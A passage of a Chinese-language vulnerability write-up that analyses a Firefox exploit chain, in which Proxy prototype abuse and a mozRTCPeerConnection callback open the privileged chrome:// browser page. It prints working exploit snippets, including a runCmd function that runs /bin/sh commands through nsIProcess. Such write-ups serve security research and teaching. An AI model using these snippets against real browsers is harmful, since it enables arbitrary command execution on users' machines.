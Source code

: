```
var props = {};  
props['has'] = function(){  
  var chromeWin = open("chrome://browser/content/browser.xul", "x")();  
};  
document.__proto__ = Proxy.create(props)  

```

惊奇的发现，当我们在Proxy中，尝试打开一个特权页面“chrome://browser/content/browser.xul”的时候，居然只是弹出了“阻止窗口弹出”的提醒。这说明特权页面是可以被轻易打开的，这个提醒也可以通过点击页面的方式绕过。

0x03 chrome:意味着什么
=====

我们能够打开一个域为chrome://browser/content/browser.xul的页面，以为着什么？

火狐和其他很多浏览器一样，都有自己的特权域。不同的URI schemes意味着不同的权限。Chromium的特权域是chrome://downloads，Safari的是file://。Firefox的特权域是chrome://，只要在这个域下的javascript拥有浏览器的最高权限。所以我们能用这样的javascript干很多事，比如执行shell命令。

你可以试着打开chrome://browser/content/browser.xul并在控制台下执行如下代码（linux/osx）：

```
function runCmd(cmd) {  
    var process = Components.classes["@mozilla.org/process/util;1"]  
              .createInstance(Components.interfaces.nsIProcess);  
    var sh = Components.classes["@mozilla.org/file/local;1"]  
            .createInstance(Components.interfaces.nsILocalFile);  
    sh.initWithPath("/bin/sh");  
    process.init(sh);  
    var args = ["-c", cmd];  
    process.run(true, args, args.length);  
}  
runCmd("touch /tmp/owned"); 

```

执行后，可以发现/tmp/owned已经创建，touch命令执行成功。

所以，一旦攻击者能够将代码注入到这个页面，就可以执行任意命令了。

0x04 注入代码
=====

那么怎么注入代码到这个页面？

众所周知，浏览器同源策略（SOP）将不会允许我们在http://attacker域下注入代码到chrome://browser域下。非常幸运的是，作者以前就做过类似的研究：[LINK](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/browser/firefox_webidl_injection.rb)

当open的第三个参数有传入”chrome”的话，并且在拥有特权的[docshell](http://www-archive.mozilla.org/projects/embedding/docshell.html)下调用，那么我们的URL就会以“top-level frame”的形式被打开（形似“首选项”那种页面），并且没有传统的document对象（就是一个白白的面板）。这样的窗口，拥有一个messageManager属性，能够访问其他docshell（特权是通行的~嘿）：

```
// abuse vulnerability to open window in chrome://  
var c = new mozRTCPeerConnection;  
c.createOffer(function(){},function(){  
    var w = window.open('chrome://browser/content/browser.xul', 'top', 'chrome');  

    // we can now reference the `messageManager` property of the window's parent  
    alert(w.parent.messageManager)  
});  

```
